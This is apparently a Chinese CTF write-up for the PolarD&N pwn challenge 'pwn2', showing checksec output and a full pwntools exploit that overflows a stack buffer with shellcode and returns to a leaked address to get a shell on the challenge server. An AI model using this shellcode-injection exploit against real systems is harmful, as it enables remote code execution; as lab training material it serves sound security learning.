


# {{$frontmatter.title}}
[[toc]]

> 需要关闭NX、

## 基础检查
> 本例题是PolarD&N的中等入门pwn题 getshell
```zsh
┌──(kali㉿kali)-[~/win/Downloads]
└─$ file pwn2          
pwn2: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=223702b293e1903c70772cc6ed9ea4b6475e7599, not stripped
                                                                                          
┌──(kali㉿kali)-[~/win/Downloads]
└─$ checksec --file=pwn2          
[*] '/home/kali/win/Downloads/pwn2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```

## ida 


很显然v4的长度只有2，而v6很多，

v4写入shellcode的地址

v6写入shellcode


## exp
```py
from pwn import *
context(os="linux", arch='amd64')
io = process("./pwn2")
io = remote("120.46.59.242", 2056)

padding = 0x70 + 8

shellcode = asm(shellcraft.amd64.sh())

v4_addr = int(io.recvline().strip(),16) # 题目给出的地址 转为10进制发送
# ljust 将shellocde填充到缓冲器头部，自适应调整
payload = shellcode.ljust(padding, b'A') + p64(v4_addr)

io.sendline(payload)
io.interactive()
```